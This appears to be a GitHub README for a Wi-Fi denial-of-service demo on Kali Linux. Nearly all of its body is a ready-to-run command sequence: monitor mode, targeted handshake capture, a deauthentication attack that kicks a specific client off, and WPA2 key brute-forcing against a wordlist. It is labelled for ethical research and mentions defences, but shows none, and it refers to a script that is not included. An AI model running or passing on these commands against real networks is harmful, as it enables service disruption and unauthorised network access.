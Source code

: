 # WiFi-DOS-Kali
Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng). Covers deauth attacks, brute-force cracking, and defenses. Includes PPT on attack types, tools, and commands. For ethical research only.


# WiFi-DOS-Kali

Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng).  
Covers deauth attacks, brute-force cracking, and defenses.  
Includes PPT on attack types, tools, and commands.  
**For ethical research only.**

---

## Demonstration

```bash
# View network interfaces
ifconfig

# Start monitor mode on wlan0
airmon-ng start wlan0

# Kill interfering processes
airmon-ng check kill

# Confirm monitor mode
iwconfig

# Start scanning for Wi-Fi networks
airodump-ng -i wlan0mon

# Target specific BSSID and channel
airodump-ng --bssid 8E:F5:A3:77:D6:DB -c 3 -- wlan0
airodump-ng --bssid A8:32:9A:00:CE:96 -c 11 -w /root/Desktop/wpa2 -- wlan0mon

# Deauthentication Attack (Kick clients out)
aireplay-ng -0 20 -a A8:32:9A:00:CE:96 -c 08:4A:CF:7D:47:14 wlan0mon

#Brute Force Attack
aircrack-ng -a2 -b 78:1D:BA:93:1F:9A -w /root/Desktop/rockyou.txt

aircrack-ng -a2 -b A8:32:9A:00:66:E8 -w /media/root/CAF04BE4F04BD57B/test/word.txt /media/root/CAF04BE4F04BD57B/test/Digicom-01.cap

#Stop Monitor Mode
airmon-ng stop wlan0mon
service network-manager restart


---


**#  📝 Instructions**

1. Save the script as `wifi_dos_attack.py`.

2. Run it with `sudo`:

   ```bash
   sudo python3 wifi_dos_attack.py

3. Make sure the aircrack-ng suite is installed:
   sudo apt install aircrack-ng


